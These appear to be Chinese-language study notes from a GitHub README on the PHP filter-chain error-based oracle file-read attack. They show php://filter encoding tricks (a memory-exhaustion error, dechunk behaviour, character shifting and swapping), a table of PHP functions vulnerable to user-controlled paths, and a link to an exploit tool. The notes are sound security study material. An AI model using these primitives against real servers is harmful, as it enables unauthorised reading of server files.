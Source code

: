 # PHP FILTER CHAINS: FILE READ FROM ERROR-BASED ORACLE

## 思路

利用`php://filter`实现基于error的文件读取，具体利用起来也是各种编码转换，从识别第一位的字符到识别其他位置的字符，逻辑比较复杂，需要理解才能懂。

学习到的是其中一些比较有意思的filter。

下面的可以导致内存溢出报错：

```php
<?php

$string = "START";

for ($i = 1; $i <= 13; $i++) {
    $string = iconv("UTF8", "UCS-4LE", $string);
}
```

下面的例子说明了首字符是十六进制字符时内容会被丢弃。

```php
$ echo "START" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
START
$ echo "0TART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "ATART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "aTART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "GTART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
GTART
```

利用`X-IBM-930`可以实现字符的+1移动。

```php
<?php
$guess_char = "";

for ($i=1; $i <= 7; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char/resource=/tmp/test";
    echo "IBM-930 conversions : ".$i;
    echo ", First char value : ".file_get_contents($filter)[0]."\n";
}

```



交换字符方式：

```php
$ echo -n abcdefgh > /tmp/test
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UTF16.UTF-16BE/resource=/tmp/test")."\n";'
badcfehg
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UCS-4.UCS-4LE/resource=/tmp/test")."\n";'
dcbahgfe
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UCS-4.UCS-4LE|convert.iconv.UTF16.UTF-16BE/resource=/tmp/test")."\n";'
cdabghef
```

## 影响

基本就是大部分操作文件的函数，只要对文件执行操作，包括读取、写入或向文件追加内容，或者使用了链接到该文件的流，那么如果可以控制传递给这些函数的参数，就可能使用过滤器链filter chain并使用基于错误的oracle漏洞攻击。

下面是受影响的PHP函数的部分列表。

| **Function**                                               | **Pattern**                                                  |
| ---------------------------------------------------------- | ------------------------------------------------------------ |
| ***file_get_contents\***                                   | `file_get_contents($_POST[0]);`                              |
| ***readfile\***                                            | `readfile($_POST[0]);`                                       |
| ***finfo->file\***                                         | `$file = new finfo(); $fileinfo = $file->file($_POST[0], FILEINFO_MIME);` |
| ***getimagesize\***                                        | `getimagesize($_POST[0]);`                                   |
| ***md5_file\***                                            | `md5_file($_POST[0]);`                                       |
| ***sha1_file\***                                           | `sha1_file($_POST[0]);`                                      |
| ***hash_file\***                                           | `hash_file('md5', $_POST[0]);`                               |
| ***file\***                                                | `file($_POST[0]);`                                           |
| ***parse_ini_file\***                                      | `parse_ini_file($_POST[0]);`                                 |
| ***copy\***                                                | `copy($_POST[0], '/tmp/test');`                              |
| ***file_put_contents (only target read only with this)\*** | `file_put_contents($_POST[0], "");`                          |
| ***stream_get_contents\***                                 | `$file = fopen($_POST[0], "r"); stream_get_contents($file);` |
| ***fgets\***                                               | `$file = fopen($_POST[0], "r"); fgets($file);`               |
| ***fread\***                                               | `$file = fopen($_POST[0], "r"); fread($file, 10000);`        |
| ***fgetc\***                                               | `$file = fopen($_POST[0], "r"); fgetc($file);`               |
| ***fgetcsv\***                                             | `$file = fopen($_POST[0], "r"); fgetcsv($file, 1000, ",");`  |
| ***fpassthru\***                                           | `$file = fopen($_POST[0], "r"); fpassthru($file);`           |
| ***fputs\***                                               | `$file = fopen($_POST[0], "rw"); fputs($file, 0);`           |



## 限制

`file_exists` 或 `is_file` 等函数控制输入字符串可能无法成功，因为不支持包装器。

此外就是因为发送的payload很大，因此最好是POST，GET很容易不满足payload长度。



## 工具

[synacktiv/php_filter_chains_oracle_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

![image-20240319210207186](README.assets/image-20240319210207186.png)

测试下来似乎读取到最后两位的时候可能会缺失，但是少读2个字符也影响不大。



## References

[PHP filter chains](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)

[synacktiv/php_filter_chains_oracle_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/synacktiv/php_filter_chains_oracle_exploit)
